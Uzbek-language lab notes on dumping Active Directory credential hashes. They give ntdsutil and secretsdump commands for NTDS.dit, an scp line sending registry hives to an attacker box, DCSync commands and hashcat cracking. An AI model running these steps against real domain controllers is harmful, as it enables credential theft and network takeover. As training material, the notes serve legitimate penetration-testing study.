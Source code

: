 ## **NTDS Domain Controller (Domen Controller Hashlarini olish)**

**NTDS (New Technologies Directory Services)** — bu Active Directory ma'lumotlar bazasi bo‘lib, u barcha AD ma’lumotlarini o‘z ichiga oladi: obyektlar, atributlar, parollar va boshqalar. `NTDS.dit` faylida uchta asosiy jadval mavjud:

* **Schema table**: obyekt turlari va ularning o‘zaro bog‘liqliklarini saqlaydi.
* **Link table**: obyekt atributlari va ularning qiymatlarini saqlaydi.
* **Data table**: foydalanuvchilar va guruhlarni saqlaydi.

Ushbu fayl odatda `C:\Windows\NTDS` katalogida joylashgan bo‘ladi va shifrlangan holatda saqlanadi. NTDS.dit fayliga ishlayotgan tizimda to‘g‘ridan-to‘g‘ri murojaat qilib bo‘lmaydi, chunki u Active Directory tomonidan band qilingan.

Lekin ushbu fayl nusxasini olish uchun turli usullar mavjud. Ushbu topshiriqda **ntdsutil** va **Diskshadow** vositalari orqali fayl nusxasini olish, keyin esa ushbu fayl tarkibini parollarni yechish orqali o‘rganish usullari tushuntiriladi.

**Muhim:** NTDS faylini yechish uchun **SYSTEM** va **SECURITY** fayllari ham kerak bo‘ladi, chunki ularda Boot Key (yuklash kaliti) saqlanadi.

---

### **Ntdsutil vositasi**

**Ntdsutil** — Active Directory konfiguratsiyasini boshqarish uchun Windows’ning ichki vositasi. U quyidagilar uchun ishlatiladi:

* O‘chirilgan obyektlarni tiklash
* AD bazasini texnik xizmat ko‘rsatish
* AD snapshotlarni boshqarish
* DSRM admin parolini sozlash

---

## 🖥️ **Lokal Dumping (Kirish ma’lumotsiz)**

Agar sizda hech qanday foydalanuvchi ma’lumoti bo‘lmasa, lekin **Domain Controller** ustidan **administrator huquqlari** bo‘lsa — quyidagicha fayllarni olish mumkin.

### **Kerakli Fayllar:**

* `C:\Windows\NTDS\ntds.dit`
* `C:\Windows\System32\config\SYSTEM`
* `C:\Windows\System32\config\SECURITY`

### **NTDS faylini olish uchun PowerShell buyruq:**

```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

`C:\temp` katalogida `Active Directory` va `registry` papkalari yaratiladi, va yuqoridagi 3 faylni ichida topasiz.

Bu fayllarni **AttackBox**’ga uzating va quyidagi buyruq bilan **hashlar**ni yeching:

```bash
python3.9 /opt/impacket/examples/secretsdump.py \
  -security path/to/SECURITY \
  -system path/to/SYSTEM \
  -ntds path/to/ntds.dit \
  local
```

Olib chiqish:
```
scp .\SYSTEM .\SECURITY root@10.201.37.104:/root/Desktop/
```

---

## 🌐 **Masofaviy Dumping (Kirish ma’lumotlari bilan)**

Agar sizda **admin huquqiga ega foydalanuvchi ma’lumoti (parol yoki NTLM hash)** bo‘lsa, **Domain Controller**’dan masofadan ham hashlarni olishingiz mumkin.

---

### **DC Sync (Domain Controller Sync) hujumi**

Bu mashhur usul bo‘lib, maxsus ruxsatlarga ega bo‘lgan foydalanuvchi orqali amalga oshiriladi. Quyidagi AD ruxsatlar zarur:

* Replicating Directory Changes
* Replicating Directory Changes All
* Replicating Directory Changes in Filtered Set

Bu ruxsatlar orqali xaker domen replikatsiyasini (ya’ni, AD nusxalash) amalga oshiradi.

### **Impacket orqali DC Sync qilish:**

```bash
python3.9 /opt/impacket/examples/secretsdump.py \
  -just-dc THM.red/<AD_Admin_User>@10.201.112.212
```

* `-just-dc` → faqat NTDS ma'lumotlarini olish uchun ishlatiladi
* `THM.red/AD_Admin_User` → domen va foydalanuvchi (masalan: red/administrator)

### **Faqat NTLM hashlarni olish uchun:**

```bash
python3.9 /opt/impacket/examples/secretsdump.py \
  -just-dc-ntlm THM.red/<AD_Admin_User>@10.201.112.212
```

---

## 🔓 **Hashlarni Cracking qilish (parolni ochish)**

Olingan NTLM hashlarni **hashcat** yordamida buzishingiz mumkin. Windows NTLM hashlar uchun `-m 1000` rejimi ishlatiladi:

```bash
hashcat -m 1000 -a 0 /path/to/ntlm_hashes.txt /path/to/rockyou.txt
```
